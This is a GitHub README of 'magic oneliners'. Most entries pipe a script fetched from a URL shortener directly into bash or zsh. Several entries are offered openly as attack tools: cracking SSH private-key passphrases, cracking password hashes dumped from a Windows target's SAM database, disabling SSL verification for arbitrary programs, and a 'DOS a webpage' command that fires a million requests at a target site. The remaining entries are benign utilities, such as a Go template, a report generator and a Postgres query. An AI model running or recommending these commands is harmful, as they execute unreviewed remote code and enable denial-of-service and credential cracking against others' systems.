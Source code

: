 # Magic oneliners

This repository is about bash/python/programming language oneliners that can do an incredible amount of work.

## Oneliners

* [Crack a ssh private key](https://raw.githubusercontent.com/4thel00z/oneliners/master/scripts/crack_ssh_password.zsh)

```
# Download via: 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/crackssh | zsh -s <path-to-private-key> <path-to-wordlist> 

# or in case you haven't installed zsh yet or use fish 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/crackssh | bash -s <path-to-private-key> <path-to-wordlist> 
```

* [Setup a cool go project template](https://github.com/4thel00z/d)

```
# Ideally you do this in your ~/go/src/github.com/<your-gihub-username>/ or other smart places
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/boilerplate | bash -s <project_name>
```

* [DOS a webpage](http://gendos.site)

```
# What this does, is it downloads https://github.com/rakyll/hey for amd64 linux and shoots against the 'target.com'
curl -L "gendos.site?args=https://target.com%20-n=1000000" | sh
```

* [Upload encrypted stuff to your gist](https://shortly.fun/upload-gist)

First create a github token [here](https://github.com/settings/tokens/new) if you haven't already used `hub login`.

```
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/upload-gist | zsh -s <path-to-file> <name-of-gpg-recipient> [optional: <github-token-with-gist-permissions>]
```

* Decrypt those gists again :D

```
curl  --proto '=https' --tlsv1.2 -L -sSf  | base64 -d | gpg --decrypt
```

* [Crack sam_hashes](https://shortly.fun/cracksam)

If you have successfully dumped hashes from the sam database of a Windows target and stored them to a file you can use the following scrip to retrieve the cleartext passwords:

```
# Download via: 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/cracksam | zsh -s <absolute-path-to-hashes> <absolute-path-to-wordlist>

# or in case you haven't installed zsh yet or use fish 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/cracksam | bash -s <absolute-path-to-hashes> <absolute-path-to-wordlist>
```


* [Disable ssl verification](https://shortly.fun/no-ssl-verification)

If you want to disable ssl verification for a software which uses openssl or gnutls as a shared library you can do the following:
```
# Download via: 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/no-ssl-verification | zsh -s <some-command-you-want-to-disable-ssl-verification-for>

# or in case you haven't installed zsh yet or use fish 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/no-ssl-verification | bash -s <some-command-you-want-to-disable-ssl-verification-for>
```


* [Generate a report](https://github.com/4thel00z/reportgen)

In case you are a l33t h4x0r who wants to render the nicest OSCP pentesting report or some boring stuff documentation for your newest JS hipster framework with 666 stars you can use the following command on a markdown that looks like [this](https://raw.githubusercontent.com/4thel00z/reportgen/master/example.md):

```
curl  --proto '=https' --tlsv1.2 -L -sSf  https://shortly.fun/genreport  | zsh -s example.md example.pdf
```

* [Open url in wayback machine (private firefox window)](https://shortly.fun/wayback)

In case you want to check for a url in a private firefox window in the [Wayback machine](https://archive.org/) you can use the following script:

```
curl  --proto '=https' --tlsv1.2 -L -sSf  https://shortly.fun/wayback  | zsh -s https://example.com
```

* Debugging postgres - Find longrunning queries

If you are debugging your postgres instance and have [pgcli]() installed, you can find out which query it is via:
You will have to have `$DB_HOST`, `$DB_USERNAME` and `$DB_NAME` set appropriately.

```
echo "WITH long_running AS (SELECT pid, now() - pg_stat_activity.query_start AS duration, query, state FROM pg_stat_activity WHERE (now() - pg_stat_activity.query_start) > interval '1 minutes' and state = 'active') SELECT * from long_running;"| pgcli -h $DB_HOST -U $DB_USERNAME -d $DB_NAME 
```

## License

This project is licensed under the GPL-3 license.
